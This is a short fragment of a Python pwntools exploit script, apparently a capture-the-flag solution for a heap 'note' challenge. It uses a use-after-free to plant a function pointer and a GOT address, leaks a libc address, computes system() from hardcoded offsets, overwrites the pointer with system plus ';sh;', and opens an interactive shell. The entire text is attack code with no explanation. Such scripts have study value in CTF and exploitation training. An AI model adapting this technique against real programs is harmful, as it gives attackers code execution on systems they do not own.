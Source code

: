 ```python
    delnote('1')
    addnote('8',p32(0x0804862b)+p32(0x0804a004))
    printnote('0')
    leak = r.recvuntil('-')
    libc_leak = u32(leak[15:19])
    libc_base_offset = 0xd41c0
    libc_system_offset = 0x0003a940
    libc_base = libc_leak - libc_base_offset
    libc_system = libc_base + libc_system_offset
    delnote('2')
    addnote('8',p32(libc_system)+';sh;')
    printnote('0')
    r.interactive()

if __name__ == '__main__':
    main()
```
